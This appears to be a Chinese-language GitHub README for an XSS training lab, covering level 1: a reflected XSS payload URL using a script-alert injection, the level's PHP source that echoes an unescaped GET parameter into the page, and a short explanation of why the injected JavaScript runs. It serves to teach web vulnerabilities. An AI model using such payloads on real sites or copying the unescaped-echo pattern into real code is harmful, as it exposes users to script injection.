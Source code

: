 # xss-lab

[https://xssaq.com/yx/](https://xssaq.com/yx/)

[https://blog.csdn.net/LYJ20010728/article/details/116462782](https://blog.csdn.net/LYJ20010728/article/details/116462782)

# level1

无阻碍

第一关

```html
https://xssaq.com/yx/level1.php?name=<script>alert(/redqx/)</script>
```

源码摘要

```php

<script>
window.alert = function()  //hook弹窗函数,也就是自定义了一个弹窗函数
{     
    confirm("完成的不错！");
    window.location.href="level2.php?keyword=test"; 
}

</script>

<?php 
ini_set("display_errors", 0); //这句代码用于设置PHP的错误报告级别，将其设为0表示不在页面上显示任何错误信息。
$str = $_GET["name"];
echo "<h2 align=center>欢迎用户".$str."</h2>";
?>

```

其中存在漏洞利用点是echo

echo会把内容写到html中

如果内容涉及js代码,那么js代码就会被执行

比如下面这个东西

```php
<?php 
ini_set("display_errors", 0); //这句代码用于设置PHP的错误报告级别，将其设为0表示不在页面上显示任何错误信息。
$str = $_GET["name"];
//echo "<h2 align=center>欢迎用户".$str."</h2>";
echo "<script>alert(\"redqx\")</script>"
?>
```
